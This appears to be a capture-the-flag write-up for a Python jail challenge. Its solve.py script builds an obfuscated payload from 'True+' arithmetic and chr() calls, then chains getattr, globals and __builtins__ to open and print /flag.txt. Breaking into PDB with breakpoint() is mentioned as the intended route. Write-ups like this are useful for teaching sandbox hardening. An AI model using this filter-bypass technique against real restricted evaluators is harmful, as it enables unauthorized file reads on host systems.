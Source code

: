 Probably many solutions.. intended is to use "breakpoint()" (hence the description) to enter PDB and then print flag.txt from there

#### solve.py

```py
def build_nuber(n: int):
    return f"({('True+'*n)[:-1]})"

def build_string(s: str) -> str:
    s = '+'.join([f"chr({build_nuber(ord(c))})" for c in s])
    return f'({s})'

solution_vars =  f'''
global_get = getattr(globals(),{build_string('get')})
builtin = getattr(global_get({build_string('__builtins__')}),{build_string('get')})
opn = builtin({build_string('open')})
print(getattr(opn({build_string('/flag.txt')}),{build_string('read')})())
'''

solution_chain = f'''
print(getattr(getattr(getattr(globals(),{build_string('get')})({build_string('__builtins__')}),{build_string('get')})({build_string('open')})({build_string('/flag.txt')}),{build_string('read')})())
'''

solution = solution_chain
if not solution.endswith('\n'):
    solution += '\n'
print(solution)
```
